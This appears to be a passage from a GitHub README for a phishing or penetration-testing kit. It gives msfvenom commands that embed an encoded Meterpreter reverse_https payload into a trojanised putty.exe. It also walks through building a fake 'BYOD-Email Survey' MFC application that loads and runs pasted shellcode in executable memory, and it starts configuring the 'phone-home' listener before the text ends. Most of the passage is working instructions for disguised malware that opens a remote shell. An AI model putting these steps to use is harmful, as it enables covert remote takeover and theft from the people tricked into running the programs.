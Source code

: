     `msfvenom -p windows/meterpreter/reverse_https -f exe -e x86/shikata_ga_nai -i 25 -k -x /var/www/lulz/putty.exe LHOST=192.168.1.41 LPORT=443 >evilputty.exe`

    Where "/var/www/lulz/" is the `path` to your putty executable.

## 4. BYOD-Email Survey payload
Perform the following steps to generate a custom Metasploit infected executable. 

1. Download and install Microsoft Visual Studio Professional 2013.
2. Select `New Project`.
3. In the `New Project` setup wizard, select `C++` in the left hand pane.
4. Select `MFC` in the sub category.
5. In the pane on the right, select `MFC Application`.
6. Input the `Project Name` and `Solution Name`.
7. Select `OK`.
8. Select `Next`.
9. On the `Application Type` phase, select `Dialog Based`.
10. Select `Use MFC in a static library`.
11. In the `Solution Explorer` pane, select `<your-project-name>.cpp`.
12. Next, we will use Metasploit to output shellcode in `C`. On a GNU/Linux OS with Metasploit installed, run the following command.

    `msfvenom -p windows/meterpreter/reverse_https LHOST=111.222.333.444 LPORT=443 -f c`

13. Copy the output shellcode.
14. Return to the Visual Studio editor.
15. Create a function and paste your shellcode into your function. An example is below.

    `void own() {`

    `unsigned char buf[] =`

    `"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"`

    `...(paste your shellcode here...`

    `"\x37\x2e\x31\x33\x39\x2e\x31\x37\x36\x00";`

    `void *exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);`

    `memcpy(exec, buf, sizeof buf);`

    `((void(*)())exec)();`

    `}`

16. Create a call to the function somewhere in your application.

    `own();`
17. Compile your application and run it. 
***
## 5. Payload listener configuration
Perform the following steps to configure the payload listener , or your "Phone-home" system. 

1. Install Metasploit
2. Open the Metasploit console.
